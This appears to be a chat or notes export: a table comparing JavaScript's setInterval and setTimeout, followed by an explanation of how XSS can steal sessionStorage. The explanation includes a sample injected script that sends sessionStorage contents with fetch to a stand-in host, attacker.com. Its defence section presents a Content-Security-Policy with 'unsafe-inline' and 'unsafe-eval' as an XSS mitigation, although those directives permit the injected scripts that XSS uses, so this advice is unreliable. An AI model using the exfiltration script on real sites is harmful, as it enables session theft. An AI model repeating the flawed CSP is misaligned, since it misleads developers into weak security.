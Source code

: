 ### Comparison to `setTimeout`:
| Action               | `setInterval`                     | `setTimeout`                     |
|----------------------|-----------------------------------|-----------------------------------|
| Before Clearing      | Repeats indefinitely              | Runs once                        |
| After `clear...()`   | All future iterations canceled    | Single execution prevented       |
| Memory Impact        | Callback remains until cleared    | Cleaner single-reference model   |

Always clear intervals when they're no longer needed to prevent memory leaks, especially in Single Page Applications (SPAs).

---

Q: can XSS let malicious js code to obtain a user's sessionStorage data and impersonate that user?

Yes, **Cross-Site Scripting (XSS) can allow malicious JavaScript to access a user's `sessionStorage` data and potentially impersonate that user**, but with some important caveats. Here's how it works and how to protect against it:

---

### **How XSS Can Steal `sessionStorage`**
1. **Direct Access**:
    - If an XSS vulnerability exists, attackers can inject scripts that read `sessionStorage`:
      ```javascript
      // Malicious script injected via XSS
      const stolenData = JSON.stringify(sessionStorage);
      fetch('https://attacker.com/steal', { method: 'POST', body: stolenData });
      ```

2. **Session Hijacking**:
    - If `sessionStorage` contains sensitive tokens (e.g., JWT, session IDs), attackers can use them to impersonate the user.

---

### **Key Factors**
| Factor | Impact |
|--------|--------|
| **XSS Type** | **Stored/DOM-based XSS** can persistently steal data. **Reflected XSS** requires user interaction. |
| **sessionStorage Scope** | Accessible only by scripts running on the **same origin** (same protocol+domain+port). |
| **Storage Content** | More dangerous if storing authentication tokens or sensitive user data. |

---

### **Defense Strategies**
1. **Mitigate XSS**:
    - Use **Content Security Policy (CSP)** headers to restrict script execution:
      ```http
      Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'
      ```
    - Sanitize user inputs (use libraries like DOMPurify).
